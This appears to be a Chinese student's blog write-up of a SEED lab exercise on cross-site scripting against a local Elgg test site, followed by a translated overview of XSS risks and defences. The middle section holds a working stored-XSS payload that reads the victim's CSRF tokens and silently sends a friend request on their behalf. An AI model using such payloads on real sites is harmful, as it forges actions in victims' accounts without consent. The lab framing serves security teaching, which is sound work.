



[toc]

## 前言

**我在web这块，八窍已通七窍。**时间不是特别紧，我花了八天左右，去刷了一份JavaScript的视频才回头接着看这一章的内容。但web这里还有很多不知道，故不进行介绍。

XSS的内容见：[前端安全系列（一）：如何防止XSS攻击？](https://juejin.im/post/5bad9140e51d450e935c6d64)

我刷的JS视频：[JavaScript从入门到精通 -- Blue石川老师](https://www.bilibili.com/video/BV1LW411Q7qV)

刷视频过程中的代码/文档：[JavaScript -- github](https://github.com/da1234cao/programming-language-entry-record/tree/master/JavaScript)

该实验的代码文档源见：[代码文档仓库](https://github.com/da1234cao/computer_security)

<br>

## seed 实验

进行分析。

```js
使用alice账号，添加samy为好友，HTTP Header如下所示
Request URL:http://www.xsslabelgg.com/action/friends/add?friend=47
            &__elgg_ts=1594634598
            &__elgg_token=i_ODReeUsehhSb1JkBlUOQ
            &__elgg_ts=1594634598
            &__elgg_token=i_ODReeUsehhSb1JkBlUOQ
Host:www.xsslabelgg.com


查看该页面的html源码，找到嵌入在页面中的：elgg.security.token.__elgg_ts 和 elgg.security.token.__elgg_token
var elgg = 
{
    "config":{"lastcache":1549469404,"viewtype":"default","simplecache_enabled":1},
    "security":{"token":{"__elgg_ts":1594634598,"__elgg_token":"i_ODReeUsehhSb1JkBlUOQ"}},
    "session":{"user":{"guid":44,"type":"user","subtype":"","owner_guid":44,
               "container_guid":0,"site_guid":1,"time_created":"2017-07-26T20:29:47+00:00",
               "time_updated":"2017-07-26T20:29:48+00:00",
               "url":"http:\/\/www.xsslabelgg.com\/profile\/alice",
               "name":"Alice","username":"alice","language":"en","admin":false},
               "token":"VNxZb5d0hPy3F8atWS4KPJ"},
    "_data":{},
    "page_owner":{"guid":47,"type":"user","subtype":"","owner_guid":47,"container_guid":0,
                  "site_guid":1,"time_created":"2017-07-26T20:30:59+00:00",
                  "time_updated":"2020-07-13T09:39:32+00:00",
                  "url":"http:\/\/www.xsslabelgg.com\/profile\/samy",
                  "name":"Samy","username":"samy","language":"en"}
};


<a href="http://www.xsslabelgg.com/action/friends/add?friend=47&amp;
    __elgg_ts=1594691548&amp;__elgg_token=HcunH-Lm_a09OwBPn6rakA" 
    class="elgg-button elgg-button-action">Add friend</a>

function() {
  var $menu = $(this).closest('.elgg-menu');

  // Be optimistic about success
  elgg.ui.toggleMenuItems($menu, menuItemNameB, menuItemNameA);

  // Send the ajax request
  elgg.action($(this).attr('href'), {
    success: function(json) {
      if (json.system_messages.error.length) {
        // Something went wrong, so undo the optimistic changes
        elgg.ui.toggleMenuItems($menu, menuItemNameA, menuItemNameB);
      }
    },
    error: function() {
      // Something went wrong, so undo the optimistic changes
      elgg.ui.toggleMenuItems($menu, menuItemNameA, menuItemNameB);
    }
  });

  // Don't want to actually click the link
  return false;
}
```


执行XSS攻击。

```html
<!-- 嵌入js代码，在受害者不知情的情况下，添加朋友
分析过程见analysis.txt -->

<span>when you see my profile,you have been attacked by XSS. </span>

<script type="text/javascript">
window.onload = function(){
    // 提取参数 -- 参数在后面，所以用window.onload
    var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
    var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

    // alert('ts='+ts);
    // alert('token='+token);

    // 构造url
    var sendUrl = "http://www.xsslabelgg.com/action/friends/add?friend=47" + ts + token;

    // 创建和发送Ajax请求
    var Ajax = new XMLHttpRequest();
    Ajax.open('GET',sendUrl,true);
    // Ajax.setRequestHeader("Host","www.xsslabelgg.com");

    Ajax.send();

    // 接受返回
    // Ajax.onreadystatechange = function(){ // 状态发生变化时，函数被回调
    //     if(Ajax.readyState == 4){ // 成功完成
    //         // 判断响应结果
    //         if(Ajax.status == 200){
    //             // alert('success');
    //             alert(Ajax.responseText);
    //         }else{
    //             alert('failure');
    //         }
    //     }
    // }
}


</script>
```

结果：通过嵌入的JS代码，在受害者不知情的情况下，添加好友。



<br>

## 总结翻译

ROC + google翻译


许多网络应用程序（例如社交网络）允许用户共享信息。因此，来自一个用户的数据可能会被其他用户查看。如果共享的只是数据，则没有风险很大；但是，**恶意用户可能会将JavaScript代码隐藏在其数据中**；**如果是网路应用程序不会过滤掉代码，代码可能会到达其他用户的浏览器并被执行。这是称为跨站脚本（XSS）**，这是一种特殊的代码注入攻击，它是针对Web应用程序的最常见攻击。 XSS的根本缺陷是JavaScript本质导致，代码可以与HTML数据混合。正如我们从其他攻击中学到的，作为缓冲区溢出，格式字符串和SQL注入攻击，可以**将数据与代码混合**
**非常危险**。如果Web应用程序无法将它们分开并过滤掉不受信任的代码，则它将最终可能会运行恶意代码。在XSS攻击中，一旦攻击者的代码进入受害者的浏览器，该代码便可以发送代表受害者向网络服务器伪造请求，例如删除受害者的朋友并更改受害者的个人资料。此外，恶意代码可以将自己的副本保存在受害者的帐户，感染了受害者的数据。当其他人查看受害者的受感染数据时，恶意代码可以进一步感染其他人，从本质上讲成为一种自我传播的蠕虫。为了克服XSS攻击，大多数应用程序使用过滤器从数据中删除JavaScript代码，由用户提供。编写这样的过滤器并不容易，因为有很多嵌入方法数据中的JavaScript代码。**最佳做法是使用经过广泛审查的过滤器，而不是通过个人的一些快速努力来创建一个。**

